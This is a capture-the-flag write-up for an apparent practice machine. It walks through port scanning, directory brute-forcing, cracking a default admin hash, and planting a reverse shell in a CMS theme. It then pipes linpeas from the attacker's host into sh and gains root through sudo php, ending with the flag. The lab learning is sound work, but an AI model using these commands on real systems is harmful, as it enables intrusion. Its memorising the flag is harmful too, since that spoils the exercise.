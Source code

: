 ##   Knowledge Check

Tips

Methodology
- Enumeration Scanning
- Exploitation
- Privilege Escalation 

## Steps

Enumeration/Scanning with Nmap - perform a quick scan for open ports followed by a full port scan

Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include whatweb and Gobuster

If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.

After identifying the technologies in use, use a tool such as Searchsploit to find public exploits or search on Google for manual exploitation techniques

After gaining an initial foothold, use the Python3 pty trick to upgrade to a pseudo TTY

Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials

Organize this data offline to determine the various ways to escalate privileges to root on this target

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
1. sudo -sV -sC -O --min-rate=1000 --script=http-enum --top-ports=5000 -o nmapscan -vv

2. gobuster dir -u http://10.129.121.73 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o directories

\\ found /admin/, /backups/, /data/, /plugins/, /robots.txt/, index.html 

http://gettingstarted.htb/data/users/admin.xml -> admin:d033e22ae348aeb5660fc2140aec35850c4da997 | decode it as md5 -> admin:admin

3. login with admin:admin under this path http://gettingstarted.htb/admin/

4.  found /theme/ directory and u can edit the theme from the admin panel 
http://gettingstarted.htb/admin/theme-edit.php | and write a reverse shell on the theme [ pentest monkey ]

after editing the theme visit the uploaded theme under http://gettingstarted.htb/theme/Innovation/template.php and open a listener nc -nvlp 9001


5. got a reverse shell 
cd /home
cd mrb3n 
cat user.txt

6. privilege escalation
open a python3 local server on attacker machine
python3 -m http.server 8000 and download linpeas.sh on it

download linpeas on target machine
curl http://LOCAL_IP:8000/linpeas.sh | sh

after downloading linpeas.sh and run sudo -l found that user can run all commands under the /usr/bin/php
User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
    
 so go to https://gtfobins.github.io/gtfobins/php/#sudo


and enter these commands on target machine 

CMD="/bin/sh"
sudo php -r "system('$CMD');"

whoami -> root 
cd /root
cat root.txt
flag: f1fba6e9f71efb2630e6e34da6387842
